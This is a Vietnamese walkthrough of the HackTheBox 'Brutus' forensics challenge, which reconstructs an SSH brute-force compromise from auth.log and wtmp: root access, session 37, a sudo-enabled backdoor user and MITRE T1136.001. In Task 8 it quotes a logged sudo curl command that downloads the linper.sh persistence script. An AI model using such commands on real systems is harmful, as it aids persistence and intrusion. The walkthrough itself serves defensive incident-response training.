

# Brutus

URL: https://app.hackthebox.com/sherlocks/Brutus?tab=play_sherlock

Đề cho 2 file là: 

- `auth.log` : ghi lại  nhật ký xác thực quan trọng trong Linux, ghi lại toàn bộ hoạt động đăng nhập, sử dụng sudo, SSH, và các sự kiện bảo mật
- `wtmp`: là một tệp tin nhị phân lưu trữ lịch sử toàn bộ các lần đăng nhập và đăng xuất của người dùng trên hệ thống

### Task 2: The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?

`Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)`

⇒ đáp án là root

### Task 3: Identify the UTC timestamp when the attacker logged in manually to the server and established a terminal session to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.

- `auth.log` chỉ chỉ ra thời điểm người dùng xác thực thành công, còn `wtmp` mới chỉ ra thời điểm phiên terminal được khởi tạo cho người dùng SSH.
- Sử dụng script `utpm.py` để đọc file nhị phân `wtmp`, phân tích file log wtmp
- Thấy nhiều lượt đăng nhập ubuntu và root từ IP 203.101.190.9, đây có lẽ là lượt đăng nhập hợp lệ của admin.
- Sau đó thấy ip của attacker đăng nhập thành công brute-force đã tìm thấy ở Task 2
    
    `"USER"	"2549"	"pts/1"	"ts/1"	"root"	"65.2.161.68"	"0"	"0"	"0"	"2024/03/06 13:32:45"	"387923"	"65.2.161.68"`
    
- Vấn đề của script `utmp.py`: Nếu nhìn vào mã nguồn của script python đã dùng, đoạn xử lý thời gian có sử dụng hàm `time.localtime()`. Hàm này sẽ tự động lấy thời gian gốc trong file nhị phân và cộng thêm múi giờ của chiếc máy tính đang chạy lệnh đó.
- Ở Việt Nam giờ là UTC+7

⇒ Đáp án là `2024-03-06 06:32:45`

### Task 4: SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

- Sau khi login, trình quản lý đăng nhập của hệ thống (systemd-logind) chính thức cấp cho phiên này một mã số
    
    `Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.`
    

⇒ Đáp án là `37`

### Task 5: The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

- Kẻ tấn công đã tạo và add user `cyberjunkie` vào group ‘sudo’
- File `/etc/group`: Đây là file tiêu chuẩn liệt kê các nhóm và thành viên của nhóm. Dòng log ngay trước đó (`add 'cyberjunkie' to group 'sudo'`) báo hiệu hệ thống đã ghi tên kẻ tấn công vào file này. Tuy nhiên, file này ai cũng có thể đọc được.
- File `/etc/gshadow` (Shadow Group): Để tăng cường bảo mật, Linux tạo ra một file "bóng" đi kèm là `/etc/gshadow`. File này được bảo mật nghiêm ngặt (chỉ quyền root mới đọc được) dùng để lưu trữ mật khẩu của nhóm hoặc quản trị viên của nhóm đó.

⇒ Đáp án là: `cyberjunkie` 

### Task 6: What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?

Tactic: Persistence

Techniques: Create Account

sub-techniques: Local Account 

ID: `T1136.001`

### Task 7: What time did the attacker's first SSH session end according to auth.log?

`"DEAD"	"2491"	"pts/1"	""	""	""	"0"	"0"	"0"	"2024/03/06 13:37:24"	"590579"	"0.0.0.0"`
⇒ Đáp án: `2024-03-06 06:37:24`

### Task 8: The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

- Attacker đăng nhập vào tài khoản mà chúng đã tạo và cấp quyền là `cyberjunkie` và download script qua curl
    
    `Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`
    

⇒ Đáp án: `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`